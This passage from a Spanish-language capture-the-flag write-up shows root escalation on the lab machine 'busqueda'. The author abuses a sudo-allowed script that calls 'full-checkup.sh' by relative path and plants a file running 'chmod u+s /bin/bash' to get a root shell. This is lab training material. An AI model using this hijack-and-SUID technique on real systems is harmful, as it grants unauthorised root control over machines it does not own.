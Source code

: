 Probando estos comandos para ver su funcionamiento se puede ver que tiene contenedores docker y distintas opciones en su interior-
~~~bash
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
~~~
Para entender mejor se opto por ir a su carpeta para ver que archivos mas podria tener que puedan ayudar a entender mejor el script.
Una vez dentro, se puede ver que tiene un archivo con el mismo nombre que una opcion del script maestro.
~~~bash
svc@busqueda:/tmp$ cd /opt/scripts/
svc@busqueda:/opt/scripts$ ls
check-ports.py  full-checkup.sh  install-flask.sh  system-checkup.py
~~~
Realizando suposiciones en mi cabeza, parece que utiliza ese archivo para generar alguna acción con el script original, asi que con prueba y error se crea un archivo malicioso, para ello voy a la carpeta /tmp y creo un archivo para dar permisos suid a la bash y hacer el archivo ejecutable.
~~~bash
cat full-checkup.sh 
#!/bin/bash
chmod u+s /bin/bash

chmod +x full-checkup.sh
~~~
Entonces al ejecutar el script en teoria deberia de otorgar permisos suid a la bash.
~~~bash
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

[+] Done!
~~~
Ahora revisando la /bin/bash se puede ver que si tiene permisos suid, por lo que el ataque funciono correctamente.
~~~bash
svc@busqueda:/tmp$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
~~~

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Ahora entrando con acceso a root, se puede obtener la root flag facilmente y completar la maquina.
~~~bash
svc@busqueda:/tmp$ /bin/bash -p
bash-5.1# id
uid=1000(svc) gid=1000(svc) euid=0(root) groups=1000(svc)
bash-5.1# cat /root/root.txt
<Encuentre su propia root flag>
~~~
De esa forma, se logro obtener la root flag.
🎉 Sistema completamente comprometido - Root obtenido

